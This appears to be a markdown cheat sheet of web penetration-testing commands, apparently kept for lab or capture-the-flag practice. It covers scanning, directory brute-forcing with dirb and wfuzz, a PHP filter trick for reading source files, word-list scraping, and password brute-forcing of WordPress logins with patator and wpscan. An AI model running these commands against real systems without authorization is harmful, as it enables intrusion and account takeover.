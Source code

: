 # Web

- [Scan](#scan)
- [Forced Browsing](#forced-browsing)
- [Manual Browsing with Burp](#manual-browsing-with-burp)
- [Scraping](#scraping)
- [Password Attackds](#password-attacks)
- [CMS](#cms)
- [PHP](#php)


## Scan
     nikto -h $ip -p 80
               wfuzz -c -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --hc 404 http://$ip
     nmap NSE scripts
     Get Methods
     PUT                 curl --upload-file test.txt -v --url hxxp://192.168.126.129/test/test.txt -0 --http1.0
     DELETE          Delete htaccess, or access control

## Forced Browsing
     dirb http://$ip /usr/share/wordlists/dirb/common.txt
     dirb http://$ip /usr/share/wordlists/dirb/vulns/apache.txt
     dirb http://$ip /usr/share/wordlists/dirb/directory-list-2.3-medium.txt

## Manual Browsing with Burp
     Add to Scope, Show only in-scope items

     Browse all pages, enter data on all forms
     Robots.txt
     Dirb pages
     Get Apache/PHP versions


          http://$ip/?page=php://filter/convert.base64-encode/resource=login
          curl -s "http://$ip/?page=php://filter/convert.base64-encode/resource=index" | grep -e '[^\ ]\{40,\}' | base64 -d
     Inspect source code - JavaScript, XML, HTML
     Inspect interesting images, strings
     Identify CMS
               Silverstripe          droopescan
               Wordpress          wpscan, droopescan
               Joomla                joomscan
               Drupal                 droopescan, cmsmap
               Vbulletin             vbscan
      /usr/share/wfuzz/wordlist/Injections and Grep - Extract for Error, SQL
      Cookies, parameters, passwords with Intruder
      Sessions with Sequencer

## Scraping
     cewl --write fscipt.lst -m 3 hxxp://127.0.0.1/fscript.html
     cewl hxxps://en.wikipedia.org/wiki/List_of_occult_terms -m4 -d0 -w listofwords.txt
     cd /opt/brutescrape && gedit sites.scrape and input websites to be scraped
     wget $ip/index.html; grep “href=” index.html | cut -d “/” -f 3 | grep “\.” | cut -d '”' -f 1 | sort -u
     wget $site | strings

## Password Attacks
  patator http_fuzz url='http://$ip/wordpress/wp-login.php' method=POST \
  body='log=admin&pwd=FILE0&wp-submit=Log+In&redirect_to=%2Fwordpress%2Fwp-admin%2F&testcookie=1' \
  0='/usr/share/wordlists/rockyou.txt' follow=1 accept_cookie=1 -x ignore:fgrep='Lost your password?' \
  header='Cookie: wordpress_test_cookie=WP+Cookie+check' -x quit:fgrep!='Lost your password?',clen!='-1'

## CMS

### Wordpress
     wpscan -e vp -u 10.0.2.6/prehistoricforest (vulnerable plugins)
     wpscan -e u -u 10.0.2.6/prehistoricforest (users)
     wpscan -u 10.0.2.6/prehistoricforest --username tom --wordlist /usr/share/wordlists/rockyou.txt --threads 50
     wpscan -u $ip --wordlist ~/list.dic --username elliot
     wpscan --url $ip --enumerate vp

### Joomla
     joomscan -u http://$ip:8081

## PHP